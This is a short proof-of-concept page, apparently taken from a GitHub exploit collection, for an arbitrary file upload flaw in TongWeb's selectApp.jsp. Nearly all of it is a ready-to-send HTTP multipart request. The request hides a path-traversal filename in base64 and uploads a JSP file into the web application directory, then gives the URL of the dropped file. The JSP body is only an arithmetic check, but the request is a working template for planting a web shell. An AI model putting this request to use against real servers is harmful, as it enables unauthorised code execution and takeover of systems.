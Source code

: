 # donfangton_selectApp.jsp_fileupload

from: https://github.com/wy876/POC/blob/main/%E4%B8%9C%E6%96%B9%E9%80%9ATongWeb-selectApp.jsp%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.md

2024.4.8 @2

```
POST /heimdall/pages/cla/selectApp.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=fa2ef860e94d564632e291131d20064c
User-Agent: Mozilla/5.0 

--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="app_fileName"

Li4vLi4vYXBwbGljYXRpb25zL2hlaW1kYWxsLzEyM3F3ZTEuanNw
--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="app"


--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="className"

test
--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="uploadApp"; filename="test.jar"
Content-Type: application/java-archive

<% out.println(16156223+223415616); %>
--fa2ef860e94d564632e291131d20064c--

```

filepath: `http://ip/heimdall/123qwe1.jsp`
